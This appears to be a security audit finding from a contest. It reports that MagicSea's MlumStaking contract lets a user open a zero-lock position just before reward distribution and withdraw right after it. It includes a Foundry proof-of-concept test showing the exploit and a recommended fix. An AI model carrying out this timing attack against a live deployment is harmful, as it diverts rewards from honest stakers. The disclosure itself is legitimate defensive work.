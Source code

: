Acidic Sky Zebra

High

# Rewards in ```MlumStaking``` are distributed unfairly not taking into consideration the time someone has been locked.

## Vulnerability Detail
In ```MlumStaking``` contract, as stated in the docs rewards will be distributed every few days(see [here](https://docs.magicsea.finance/protocol/magic/magic-lum-staking)). However, the contract does not take into consideration the time that someone has been locked for between the reward distrbutions and this opens the door to some attacks making the rewards to be distributed unfairly. Also, the contract allows users to create ```StakingPosition``` with 0 ```lockDuration``` which means that this position is available to be withdrawn anytime the user wants and just the multiplier will be 0. This can cause serious problems in the reward distribution process since someone can time the ```updatePool``` call and create a position with 0 ```lockDuration```, minutes/hours before the reward distribution and then instantly withdraw it after the ```updatePool``` call.

## Impact
This vulnerability leads to unfair reward distribution since an attacker can get a huge portion of the rewards without having the appropriate time commitment. As a result, users and ```MLUM``` stakers will get less rewards than they should due to the fact that the attacker locked some minutes/hours before the distribution and then instantly withdraw after the ```updatePool``` call.

## Proof of concept
This PoC demonstrates the scenario where someone frontruns the ```updatePool``` function by creating a ```StakingPosition``` with ```lockDuration``` set to 0 and then backruns it by calling ```withdrawFromPosition``` instantly. However, this can happen, also, with some time delay and the attacker create a ```StakingPosition``` some minutes/hours before the reward distribution and then instantly withdraw it after the ```updatePool``` call. To understand better this vulnerability, add this test in the ```MlumStaking.sol``` file and run ```forge test --mt test_attackWithFrontrunningInMintRewards``` :
```solidity
    function test_attackWithFrontrunningInMintRewards() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 100 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 days);
        vm.stopPrank();

        skip(3600);

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 100 ether);
        _pool.createPosition(100 ether, 0);
        vm.stopPrank();
        _rewardToken.mint(address(_pool), 100_000_000);
        vm.startPrank(BOB);
        _pool.withdrawFromPosition(2, 100 ether);
        vm.stopPrank();

        vm.prank(ALICE);
        _pool.harvestPosition(1);

        console.log("BOB reward: ", _rewardToken.balanceOf(BOB));
        console.log("ALICE reward: ", _rewardToken.balanceOf(ALICE));

        vm.startPrank(ALICE);
        vm.expectRevert();
        _pool.withdrawFromPosition(1, 0.5 ether);

        skip(1 days);

        _pool.withdrawFromPosition(1, 1 ether);

        vm.stopPrank();
    }
```

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L354
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L574

## Tool used
Manual Review

## Recommendation
Consider checking how much time has someone been locked for an distribute the rewards accordingly.